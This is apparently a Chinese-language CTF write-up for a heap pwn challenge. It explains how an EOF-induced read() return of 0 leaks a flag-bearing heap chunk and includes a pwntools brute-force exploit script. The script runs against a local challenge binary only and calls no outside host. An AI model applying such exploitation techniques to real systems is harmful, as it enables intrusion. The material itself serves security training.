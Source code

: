读取菜单选项的函数返回的是 `read()` 的返回值而不是 `atoi()` 的返回值，根据返回值打印 qword_202120 中的字符串。qword_202120 上方是堆指针，qword_202120[-1] 就是 chunk[3]。

malloc 随机 size 写 flag 时，size 的范围是 [0x300, 0x500]。add 到 chunk[3] 时申请一个在范围内的 size，如果恰好是带有 flag 的 chunk size，就可以把这个 chunk 取出来，然后 edit 填充 0x10 个字符，`puts(qword_202120[-1])` 就能打印出 flag。size 范围不大，可以爆破。

`puts(qword_202120[-1])`  需要使 `read()` 返回 0，也就是读到 EOF。

可以 ctrl+d，虽然需要爆破，但是纯手动操作理论上可行（不建议使用）。

pwntools 可以使用 `shutdown_raw('send')` 关闭管道的 send 方向，使远程 `read()` 读到 EOF，返回 0。exp 如下：

```python
from pwn import *
def menu(choice):
    r.recvuntil('choice:')
    r.sendline(choice)

def add(size):
    menu('')
    r.recvuntil('size:\n')
    r.sendline(str(size))

def edit(index,data):
    menu('111')
    r.recvuntil('index:\n')
    r.sendline(str(index))
    r.recvuntil('Content:\n')
    r.send(data)

def delete(index):
    menu('11')
    r.recvuntil('index:\n')
    r.sendline(str(index))

def show(index):
    menu('1')

while True:
    r = process('./pwn')
    add(0x10)
    add(0x10)
    add(0x10)
    add(0x310)
    edit(3,'x'*0x10)
    r.recvuntil('choice:')
    r.shutdown_raw('send')
    flag = r.recvline()
    log.info(flag)
    if 'vnctf{' in flag or '}' in flag:
        exit(0)
    r.close()
    sleep(1)
```
